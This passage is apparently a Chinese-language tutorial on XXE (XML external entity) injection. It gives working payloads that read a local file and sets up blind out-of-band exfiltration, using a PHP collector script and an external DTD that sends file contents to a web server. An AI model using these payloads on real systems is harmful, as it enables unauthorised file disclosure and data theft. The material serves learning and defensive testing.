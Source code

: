 ```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;©right;</author>

```

在了解了基础知识后，下面开始了解 xml 外部实体注入引发的问题。

XXE 的攻击方法
=========

方法一：直接通过 DTD 外部实体声明

```
<?xml version="1.0"?>
<!DOCTYPE xml [
<!ENTITY xxe SYSTEM "file:///C:/1.txt">
]>
<xxe>&xxe;</xxe>

```

**发包访问我 C 盘目录中 1.txt 文件**

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819143850362.png)

方法二：通过 DTD 文档引入外部 DTD 文档，再引入外部实体声明，由于普通的引入外部实体声明就不说了，直接说如果不回显怎么办

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819144644467.png)

当我们本地将 php 代码中的回显给关了，那我们怎么获取当前电脑的 c:/1.txt 文件呢？很简单，直接在公网域名上构造第一个 php 文件`x.php`

```
<?php
$content = $_GET['1'];
if(isset($content)){
    file_put_contents('flag.txt','更新时间:'.date("Y-m-d H:i:s")."\n".$content);
}else{
    echo 'no data input';
}

```

和第二个`xxe.xml`的外部实体文档

```
<!ENTITY % all
"<!ENTITY % send SYSTEM 'http://127.0.0.1/xml/x.php?1=%file;'"
>
%all;

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210819145202712.png)

